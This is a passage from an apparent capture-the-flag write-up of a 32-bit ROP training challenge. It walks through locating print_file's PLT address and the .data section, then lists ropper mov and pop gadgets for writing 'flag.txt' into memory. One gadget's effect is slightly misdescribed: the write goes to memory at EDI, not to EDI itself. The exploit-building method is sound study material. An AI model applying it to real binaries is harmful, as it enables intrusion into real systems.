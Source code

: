 The address of the `print_file()` function can be located using `pwntools` by referencing the `PLT`.

Running this command will print the `PLT` entry of the `print_file()` function:

`python3 -c 'from pwn import *; binary = ELF("./write432"); print(hex(binary.plt["print_file"]))'`

**Address of the print_file() Function:** `0x80483d0`

As for the address of the `.data` section in the binary, the `readelf` command already told me the address ([Refer to: Disassembling the Binary](#step-1-disassembling-the-binary)).

**Address of the .data Section:** `0x0804a018`

After gathering the important addresses I needed during exploitation, I moved onto locating the gadgets I could use. Again, I need a gadget to move a value from one register to another. To locate the gadget, I used `ropper`, specifially searching for `mov` gadgets.

```
$ ropper -f ./write432 --search "mov"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: ./write432
0x080484e7: mov al, byte ptr [0xc9010804]; ret; 
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret; 
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret; 
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret; 
0x08048543: mov dword ptr [edi], ebp; ret; 
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx; 
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax; 
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret; 
0x08048381: mov ebx, 0x81000000; ret; 
0x08048423: mov ebx, dword ptr [esp]; ret; 
0x0804847a: mov esp, 0x27; add bl, dh; ret;
```

These are all of the gadgets that `ropper` returned. There is one in particular that grabbed my attention, `mov dword ptr [edi], ebp; ret;` located at the address `0x08048543`. This gadget moves a **dword** (4 bytes) from the `EBP` register to the `EDI` register. This means that I will have to perform two write operations to write the full 8 byte string **"flag.txt"**.

After finding the `mov` gadget, I had to locate two `pop` gadgets. The first to **pop** the `EDI` register, where I can place the address of the `.data` section into. The second gadget needed to **pop** the `EBP` register, where I could place 4 bytes of the **"flag.txt"** string into so it could be moved by the `mov` gadget.

```
$ ropper -f ./write432 --search "pop"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./write432
0x08048525: pop ebp; lea esp, [ecx - 4]; ret; 
0x080485ab: pop ebp; ret; 
0x080485a8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x0804839d: pop ebx; ret; 
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret; 
0x080485aa: pop edi; pop ebp; ret; 
0x080485a9: pop esi; pop edi; pop ebp; ret; 
0x08048527: popal; cld; ret;
```
